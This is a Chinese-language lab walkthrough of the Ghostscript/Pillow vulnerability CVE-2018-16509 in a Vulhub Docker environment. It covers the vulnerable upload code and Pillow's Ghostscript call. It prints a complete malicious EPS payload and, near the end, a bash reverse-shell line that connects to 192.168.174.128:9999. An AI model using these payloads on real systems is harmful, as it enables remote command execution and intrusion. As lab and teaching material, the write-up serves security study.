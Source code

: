 # Python PIL 远程命令执行漏洞 CVE-2018-16509

## 漏洞描述

通过 Ghostscript CVE-2018-16509 执行 Python PIL/Pillow 远程 Shell 命令。

Ghostscript 是一套基于 Adobe、PostScript 及可移植文档格式（PDF）的页面描述语言等而编译成的免费软件。Ghostscript 常常作为另一个软件（例如 ImageMagick）的依赖项安装在生产服务器中（例如`/usr/local/bin/gs`，或`/usr/bin/gs`) 。

CVE-2018-16509漏洞允许在 v9.24 之前的 Ghostscript 中通过-dSAFER 实现绕过，通过处理 PostScript 中的失败恢复 (grestore) 来执行任意命令，禁用 LockSafetyParams ，避免无效访问。

此漏洞存在于 ImageMagick 等库或带有 Ghotscript 的编程语言中的图像库（本例中为 PIL/Pillow）中。

## 环境搭建

Vulhub运行环境：

```
docker-compose up -d
```

运行后，访问`http://your-ip:8000/`即可看到一个上传页面。

## 漏洞分析

可以通过上传[rce.jpg](https://github.com/vulhub/vulhub/blob/master/python/PIL-CVE-2018-16509/rce.jpg) （一个EPS图像，并不是一个真正的JPG）来在服务器中执行命令`touch /tmp/got_rce`。

通过命令`docker container ls`获取容器ID。

如果想执行其他命令，可以在rce.jpg中修改命令`touch /tmp/got_rce`为任意其他命令。

可以参考 Tavis Ormandy 在[oss-security](https://seclists.org/oss-sec/2018/q3/142)中对漏洞的解释。

可以在[EPSImagePlugin.py](https://github.com/python-pillow/Pillow/blob/0adeb82e9886cdedb3917e8ddfaf46f69556a991/src/PIL/EpsImagePlugin.py)中查看PIL/Pillow中Ghostscript的源代码。

易受攻击的代码如下，例如app.py：

```python
@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        file = request.files.get('image', None)

        if not file:
            flash('No image found')
            return redirect(request.url)

        filename = file.filename
        ext = path.splitext(filename)[1]

        if (ext not in ['.jpg', '.jpeg', '.png', '.gif', '.bmp']):
            flash('Invalid extension')
            return redirect(request.url)

        tmp = tempfile.mktemp("test")
        img_path = "{}.{}".format(tmp, ext)

        file.save(img_path)

        img = Image.open(img_path)
        w, h = img.size
        ratio = 256.0 / max(w, h)

        resized_img = img.resize((int(w * ratio), int(h * ratio)))
        resized_img.save(img_path)
```

上传文件将通过`img = Image.open(img_path)`加载。PIL将自动检测图片是否为EPS图片（例如，文件头为`%!PS-Adobe-3.0 EPSF-3.0`）。随后，将调用EpsImageFile类EPSImagePlugin.py文件中的`_open()`函数。

为了避免触发错误`raise IOError("cannot determine EPS bounding box")`，文件中将加入边界框信息（例如，`%%BoundingBox: -0 -0 100 100`）。

EPS图像将被EPSImagePlugin.py文件中的`Ghostscript`函数的`subprocess`进行处理：

```python
    # Build Ghostscript command
    command = ["gs",
               "-q",                         # quiet mode
               "-g%dx%d" % size,             # set output geometry (pixels)
               "-r%fx%f" % res,              # set input DPI (dots per inch)
               "-dBATCH",                    # exit after processing
               "-dNOPAUSE",                  # don't pause between pages
               "-dSAFER",                    # safe mode
               "-sDEVICE=ppmraw",            # ppm driver
               "-sOutputFile=%s" % outfile,  # output file
               "-c", "%d %d translate" % (-bbox[0], -bbox[1]),
                                             # adjust for image origin
               "-f", infile,                 # input file
               "-c", "showpage",             # showpage (see: https://bugs.ghostscript.com/show_bug.cgi?id=698272)
               ]


    ....

    try:
        with open(os.devnull, 'w+b') as devnull:
            startupinfo = None
            if sys.platform.startswith('win'):
                startupinfo = subprocess.STARTUPINFO()
                startupinfo.dwFlags |= subprocess.STARTF_USESHOWWINDOW
            subprocess.check_call(command, stdin=devnull, stdout=devnull,
                                  startupinfo=startupinfo)
```

以上代码将在Image.py文件中的`load`被调用的时候才会被调用，所以只打开图片不会触发漏洞。` resize`、 `crop`、`rotate`、和 `save` 函数将会调用`load` ，并触发漏洞。

结合 Tavis Ormandy 的 POC，我们可以制作`rce.jpg`，实现远程 shell 命令执行。

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```

成功执行命令`touch /tmp/got_rce`：

![image-20220228165944812](./images/202202281659859.png)

将`touch /tmp/tmp/got_rce`命令改为反弹shell命令：

```
mark /OutputFile (%pipe%bash -c "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1") currentdevice putdeviceprops
```

成功接收反弹shell：

![image-20220228170145831](./images/202202281701913.png)



